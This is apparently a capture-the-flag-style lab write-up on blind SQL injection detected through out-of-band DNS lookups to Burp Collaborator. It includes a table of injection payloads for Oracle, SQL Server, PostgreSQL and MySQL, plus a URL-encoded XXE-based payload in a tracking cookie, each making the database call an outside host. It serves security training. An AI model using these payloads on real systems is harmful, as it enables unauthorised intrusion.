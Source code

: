 **<h2>Background:</h2>**
Out-of-Band (OAST) techniques is a method of exploiting SQL injection vulnerabilities when there is no 
immediate response or feedback from the application that reflects the results of the SQL query directly 
(as in time-based or error-based blind SQL injection). In OAST attacks, the attacker triggers an action 
that causes the database to make an external request (typically to an attacker-controlled server), 
allowing them to gather information indirectly.

The attacker makes use of functions in the database (or the underlying system) that can initiate HTTP, 
DNS, or other out-of-band network communications. 

The easiest and most reliable tool for using out-of-band techniques is **_Burp Collaborator_**. This is a 
server that provides custom implementations of various network services, including DNS. It allows us to 
detect when network interactions occur as a result of sending individual payloads to a vulnerable 
application.

> More Info on _**[Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator)**_

Triggering DNS queries is a common way to verify vulnerabilities by using an out-of-band (OOB) 
interaction. This can help identify issues such as **_SSRF_** (Server-Side Request Forgery), **_RCE_** 
(Remote Code Execution), **_SSTI_** (Server-Side Template Injection), **_XXE_** (XML External Entity 
Injection), **_HTTP header injection_**, and others. By inducing a DNS query, you can see if an 
application will interact with an external server, indicating a potential vulnerability.

The techniques for triggering a DNS query are specific to the type of database being used. For 
example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified 
domain:
>``'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--``

This causes the database to perform a lookup for the following domain:
>``0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net``

<table>
    <tr>
        <th>Database</th>
        <th>Vulnerability Type</th>
        <th>Technique for Triggering DNS Lookup</th>
        <th>Requirements</th>
    </tr>
    <tr>
        <td>Oracle</td>
        <td>XXE (XML External Entity)</td>
        <td>
            <code>
                SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;&gt;]&gt;'),'/l') FROM dual
            </code>
        </td>
        <td>Works on unpatched Oracle installations</td>
    </tr>
    <tr>
        <td>Oracle</td>
        <td>DNS Lookup via Built-In Function</td>
        <td>
            <code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code>
        </td>
        <td>Requires elevated privileges, works on patched Oracle installations</td>
    </tr>
    <tr>
        <td>Microsoft SQL Server</td>
        <td>DNS Lookup via Extended Stored Procedure</td>
        <td>
            <code>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'</code>
        </td>
        <td>Works on Microsoft SQL Server with <code>xp_dirtree</code> enabled</td>
    </tr>
    <tr>
        <td>PostgreSQL</td>
        <td>OOB Interaction via Command Execution</td>
        <td>
            <code>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'</code>
        </td>
        <td>Requires ability to execute commands, may need superuser permissions</td>
    </tr>
    <tr>
        <td>MySQL</td>
        <td>DNS Lookup via File Load (Windows Only)</td>
        <td>
            <code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code>
        </td>
        <td>Works only on Windows installations of MySQL</td>
    </tr>
    <tr>
        <td>MySQL</td>
        <td>DNS Lookup via File Write (Windows Only)</td>
        <td>
            <code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\\a'</code>
        </td>
        <td>Works only on Windows installations of MySQL</td>
    </tr>
</table>


**<h2>Problem:</h2>**
The application uses a tracking cookie for analytics, and performs a SQL query containing the value 
of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, 
you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp 
Collaborator.

**<h2>Solution:</h2>**
- Go to Burp collaborator and copy the collaborator payload in this case it is : 
``334i3n0lzvfasvko0jcg38jrmiscg24r``
- Uncheck inculde server location and add ``.burpcollaborator.net`` after subdomain
- Insert following query in tracking id 
``'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//334i3n0lzvfasvko0jcg38jrmiscg24r.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--``
![alt text](/images/lab16dnslookup.png)